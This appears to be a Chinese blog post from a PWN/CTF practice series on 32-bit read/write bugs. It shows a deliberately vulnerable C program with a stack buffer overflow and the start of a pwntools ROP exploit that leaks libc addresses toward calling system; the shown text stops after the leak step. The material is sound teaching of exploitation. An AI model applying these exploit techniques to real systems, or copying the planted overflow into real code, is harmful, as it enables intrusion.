 ```yaml
---
title: 32位下花样read_write
tags:
  - PWN
date: 2017/4/23
---
```



这是几道关于read和write的练习题，因为是练习题，就不用太花里胡哨了，只保留漏洞点就可以了。嗯，大概是就是只有两句代码的意思吧。

## pwn1

代码：

```cpp
//gcc pwn1_2.c -m32 -fno-stack-protector -o pwn1_2
#include <unistd.h>

void fun(){
    char buffer[0x20];
    read(0,buffer,0x100);
    write(1,buffer,0x100);
}

int main(){
    fun();
    return 0;
}
```

编译参数：
```
gcc pwn1_2.c -m32 -fno-stack-protector -o pwn1_2
```

checksec:
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

开了nx，但是有read和write，用rop就可以完整任意地址的读写，比较简单的一道题目。

可以先leak比如read的地址，然后根据libc算出system的地址。

poc：

```python
from pwn import *
#context.log_level = 'debug'

cn = process('./pwn1_2')
bin = ELF('./pwn1_2')
libc = ELF('/lib32/libc.so.6')

p3ret = 0x080484f9

stuff = 'a'*0x28 + 'bbbb'

pay = p32(bin.plt['write']) + p32(p3ret) + p32(1) + p32(bin.got['read']) + p32(4)
pay += p32(bin.symbols['main'])
#leak p_read,return to main
cn.sendline(stuff+pay)
cn.recv(0x100)
```